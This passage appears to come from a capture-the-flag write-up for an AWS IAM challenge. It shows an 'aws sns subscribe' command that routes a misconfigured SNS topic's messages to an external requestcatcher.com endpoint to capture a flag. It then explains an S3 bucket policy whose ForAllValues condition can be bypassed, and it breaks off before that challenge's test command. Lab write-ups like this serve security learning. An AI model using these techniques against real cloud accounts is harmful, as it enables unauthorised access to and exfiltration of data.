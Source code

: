 ### Understanding the Policy

Allows AWS users to interact with the @tbic.wiz.io SNS endpoint

### Testing the Theory

`aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint https://iamchallenge123.requestcatcher.com/test@tbic.wiz.io --region us-east-1`

The URL is generated using requestcatcher.com and we use the HTTPS protocol. The request catacher site recieves a response from the subscrption and has the flag in the HTTP body

## Challenge 4

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

### Understanding the Policy

This policy is designed to restrict access to an S3 bucket, allowing only a specific admin user to access it under certain conditions. However, the use of the `ForAllValues:StringLike` operator causes a security loophole where if the key (in this case aws:PrincipalArn) is not present at all, the condition will evaluate to true, and the request will be allowed.

### Testing the Theory
